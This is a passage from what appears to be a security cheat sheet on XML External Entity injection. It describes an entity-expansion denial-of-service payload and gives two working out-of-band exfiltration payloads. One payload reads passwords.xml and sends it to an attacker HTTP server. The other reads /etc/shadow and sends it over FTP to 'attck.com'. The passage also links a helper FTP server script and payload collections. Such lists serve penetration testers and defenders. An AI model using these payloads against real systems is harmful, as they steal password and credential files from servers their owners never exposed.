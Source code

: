 > 	**Note that you should never try this on a live target! Testing for DoS on a live target can cause the organization financial loss and is usually against companies’ bug bounty policies**

> 	This payload embeds entities within entities, causing the XML parser to recursively dereference entities to get to the root entity value lol, a single `lol9` will be expanded into one billion `lol`
- Data Exfiltration 
```xml
<!ENTITY % file SYSTEM "file:///passwords.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate 'http://attacker_server/?%start;%file;%end;'>">
 %ent; 
 %exfiltrate;
```
send files using ftp ,  here's [simple Ruby ftp server script](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)
```xml
<!ENTITY % file SYSTEM "file:///etc/shadow"> 
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://attck.com:2121/?%file;'>"> 
%ent; 
%exfiltrate;
```
### resources
[https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list) [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE) Injection

